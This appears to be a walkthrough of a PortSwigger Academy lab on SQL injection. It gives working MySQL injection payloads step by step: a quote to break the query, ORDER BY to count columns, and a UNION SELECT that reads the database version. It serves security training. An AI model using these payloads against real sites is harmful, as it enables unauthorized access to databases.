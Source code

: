 #Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
#https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

```bash
# After choosing Pets from categories you will obtain this link.

web-security-academy.net/filter?category=Pets
# We are getting internal server error by changing the last part

web-security-academy.net/filter?category=Pets'

#Intercept the request with burp suite end send it to repeater

# Since it is MYSQL we will use # to comment
Pets' # 
```
```bash
# Lets Find Column number Increment the order by number until you get error.

Pets' order by 3 #

# We get internal server error by using 3.
```
```bash
# By checking the page after you choose pet category you can see that both of the two columns are string so we will try with string.

Pets' UNION SELECT 'a' , 'a' #

#It works
```
```bash
# To be able to obtain the version and complete the lab we will do this:
Pets' UNION SELECT @@version , NULL #

```
